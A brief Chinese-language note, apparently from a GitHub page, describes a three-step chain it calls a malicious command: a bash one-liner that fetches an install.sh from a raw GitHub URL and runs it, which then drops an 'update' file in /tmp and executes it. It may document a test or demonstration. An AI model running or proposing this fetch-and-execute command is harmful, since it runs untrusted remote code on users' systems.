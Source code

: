 1、运行恶意命令
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/yq00/amp_test_demo/refs/heads/main/250611/install.sh)"

2、恶意脚本下载 update 文件到 /tmp/update

3、运行/tmp/update
